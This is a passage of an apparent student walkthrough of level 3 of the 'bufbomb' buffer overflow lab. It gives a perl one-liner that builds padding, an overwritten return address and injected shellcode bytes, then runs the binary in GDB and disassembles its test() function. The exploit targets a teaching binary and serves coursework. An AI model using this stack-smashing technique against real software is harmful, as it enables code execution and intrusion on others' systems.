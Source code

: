 Then the next step is creating a string input which is formed by 52 different characters, the return address changed into the starting address of our code injection, and the hexa code of our code injection. To do that, use this command (not on GDB): 

> * perl -e 'print "61 "x32, "62 "x20, "88 36 68 55 ", "b8 24 d8 9e 1d 68 0c 8d 04 08 c3"' > hex0<br />
> * ./hex2raw < hex0 > raw0<br />

The value **88 36 68 55** is the starting address of our code injection. It can be checked the same way as we did on level 2.  

Then, use this command:

> gdb bufbomb<br />
> (gdb) b test<br />
> Breakpoint 1 at 0x8048dbb<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048dbb in test ()<br />

And let's see the contentss of procedure **test()**.

> (gdb) disas<br />

**Dump of assembler code for function test:**

Address | Operation | Elements in operation
--- | --- | ---
=> 0x08048dbb <+0>:  |  push   %ebx
0x08048dbc <+1>:  |  sub  |  $0x28,%esp
0x08048dbf <+4>:  |  call |  0x8048da2 <uniqueval>
0x08048dc4 <+9>:  |  mov  |  %eax,0x1c(%esp)
0x08048dc8 <+13>:  |  call  |  0x8048d04 <ah_shoo>
0x08048dcd <+18>:  |  mov  |  %eax,%ebx
0x08048dcf <+20>:  |  call  |  0x8048da2 <uniqueval>
0x08048dd4 <+25>:  |  mov  |  0x1c(%esp),%edx
0x08048dd8 <+29>:  |  cmp  |  %edx,%eax
0x08048dda <+31>:  |  je   |  0x8048dea <test+47>
0x08048ddc <+33>:  |  movl  |  $0x804a26d,(%esp)
0x08048de3 <+40>:  |  call  |  0x8048810 <puts@plt>
0x08048de8 <+45>:  |  jmp  |  0x8048e30 <test+117>
0x08048dea <+47>:  |  cmp  |  0x804d10c,%ebx
0x08048df0 <+53>:  |  jne  |  0x8048e18 <test+93>
0x08048df2 <+55>:  |  mov  |  %ebx,0x8(%esp)
0x08048df6 <+59>:  |  movl  |  $0x804a282,0x4(%esp)
0x08048dfe <+67>:  |  movl  |  $0x1,(%esp)
0x08048e05 <+74>:  |  call |  0x8048900 <__printf_chk@plt>
0x08048e0a <+79>:  |  movl |  $0x3,(%esp)
0x08048e11 <+86>:  |  call |  0x8049171 <validate>
0x08048e16 <+91>:  |  jmp  |  0x8048e30 <test+117>

**-Type < return > to continue, or q < return > to quit-**

And continue with this command.

